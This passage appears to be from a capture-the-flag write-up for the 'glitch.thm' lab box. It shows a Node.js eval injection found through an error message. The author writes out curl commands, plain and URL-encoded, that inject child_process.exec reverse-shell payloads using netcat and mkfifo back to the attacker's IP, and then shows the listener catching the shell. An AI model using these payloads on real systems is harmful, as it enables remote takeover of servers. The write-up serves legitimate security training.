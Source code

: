 ```text
```

A lengthy error message come back, which tells us two things. First there is a function called eval, that didn't like our input:

```text
ReferenceError: test is not defined<br> &nbsp; &nbsp;at eval (eval at router.post)
```

And second we can see this is a Node.JS application, as it mentions node_modules:

```text
Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)
```

I don't know about the eval function and if it's exploitable, but a quick search [this](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44) and [this](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6), both explain how to take advantage of it.

First I tried the suggested method:

```text
curl -X POST http://glitch.thm/api/items?cmd=require('child_process').exec('nc -e /bin/sh 10.8.185.116 1234')
```

Which didn't work so I tried to [url encode](https://www.urlencoder.org/) it:

```text
┌──(root💀kali)-[/usr/share/wfuzz/wordlist]
└─# curl -X POST http://glitch.thm/api/items?cmd=require%28%27child_process%27%29.exec%28%27nc%20-e%20%2Fbin%2Fsh%2010.8.185.116%201234%27%29
vulnerability_exploited [object Object]
```

Which looked good, but my waiting nc listener didn't catch anything. I've done other CTF in the past where I've needed to use this one from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

I URL encoded it as well, just to make sure:

```text
┌──(root💀kali)-[/usr/share/wfuzz/wordlist]
└─# curl -X POST http://glitch.thm/api/items?cmd=require%28%27child_process%27%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.8.165.116%201234%20%3E%2Ftmp%2Ff%27%29
vulnerability_exploited [object Object]  
```

Now switching to my nc listener and we have a reverse shell connected:

```text
┌──(root💀kali)-[~/thm/glitch]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.213.82] 41422
/bin/sh: 0: can't access tty; job control turned off
$
```
